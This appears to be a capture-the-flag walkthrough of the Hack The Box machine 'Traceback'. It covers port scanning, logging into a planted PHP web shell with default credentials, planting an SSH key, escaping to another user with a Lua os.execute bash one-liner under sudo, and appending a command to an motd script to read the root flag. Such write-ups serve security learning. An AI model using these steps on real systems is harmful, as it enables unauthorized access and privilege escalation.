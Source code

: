 ## Hack The Box - Tracback

### This is my writeup and walkthrough for Traceback from Hack The Box.


![main](https://user-images.githubusercontent.com/36403473/90196696-cd8f2a00-ddcc-11ea-9f4f-5c0f9ca9ba3d.jpg)



### It was an easy machine from *Hack The Box*

## `Enumeration`

#### 1-Nmap 
  `nmap -sC -sV 10.10.10.181`

``` 
nmap -sC -sV 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 01:20 EET
Nmap scan report for 10.10.10.181
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 103K  2020-02-27 05:37  smevk.php
|_
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Index of /
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
I found http on port 80 and ssh on port 22.
use should have password to conncet server so lets see http 
i opend source code i found this comment 
`
		<!--Some of the best web shells that you might need ;)-->`

![Screenshot from 2020-05-07 17-49-56](https://user-images.githubusercontent.com/36403473/81316540-feecb100-908b-11ea-94d2-a4b602e0a7b6.png)
 the first thing i do i bruteforce http dircetory by Wfuzz but it take much time , i googled on this comment i found differnt web shells on :
https://github.com/TheBinitGhimire/Web-Shells" 
reading smevk.php
we can login http://10.10.10.181/smevk.php
username:**admin**
password:**admin**

now lets go to this  directory  **/home/webadmin/.ssh** 
![Screenshot from 2020-05-07 18-23-38](https://user-images.githubusercontent.com/36403473/81319780-745a8080-9090-11ea-800a-f18601cdc38f.png)
i could to upload ssh autherizeed key 
to generate ssh keys  
i used  **`ssh-keygen`** tool on linux 
![sshgenerat](https://user-images.githubusercontent.com/36403473/81320041-da470800-9090-11ea-93d7-6956bc5bfdc0.png)

### 2-user access 

so now lets try to login to server:
**`ssh-i id_rsa webadmin@10.10.10.181`**

![echo_note](https://user-images.githubusercontent.com/36403473/81354623-61fe3800-90cc-11ea-8ccc-92a912176868.png)
two files was the solution to take user acess **note.txt** & **bash-history**
okey the olny thing we will do write simple lua script and save it on file
**echo 'os.execute(" /bin/bash -i ")' >>block.lua ** 
save it on **block.lua file**

![note script](https://user-images.githubusercontent.com/36403473/81354540-2cf1e580-90cc-11ea-8b80-ff368637bbfb.png)
 okey lets try to acess sysadmin  by block.lua
` sudo -u sysadmin /home/sysadmin/luvit block.lua
`
 go back to home directory 
![acces_system_admin](https://user-images.githubusercontent.com/36403473/81355358-983cb700-90ce-11ea-8a26-2eec59305606.png)
  
now i have access on sysadmin 
checking files `ls -al `

![acces_system_admin](https://user-images.githubusercontent.com/36403473/81357137-287cfb00-90d3-11ea-874e-160c7a63cca7.png)

now i have user access `user.txt`
### 3-root access
lets try to get root access, so i searched all files i didnt get any thing. 
after googling much time to get root access i use **`ps -aux`** commmnd  to provide information about the currently running processes.
i notice that there was an operation happened in this directory **`/etc/update-motd.d/`**
going to this directory ckeck all details **`ls -al`**
![not2root](https://user-images.githubusercontent.com/36403473/81357368-ba850380-90d3-11ea-9e74-9ceedefe51cc.png)
after googling i discovred bug in  The file `/etc/update-motd.d/00-header` according to this   [/etc/update-motd.d/00-header is broken](https://bugs.launchpad.net/ubuntu/+source/base-files/+bug/510599).

so lets
`echo "cat root/root.txt " >> 00-header`
then login again to server i try many time to login 
at the end the root flag printed on the welcome screen 
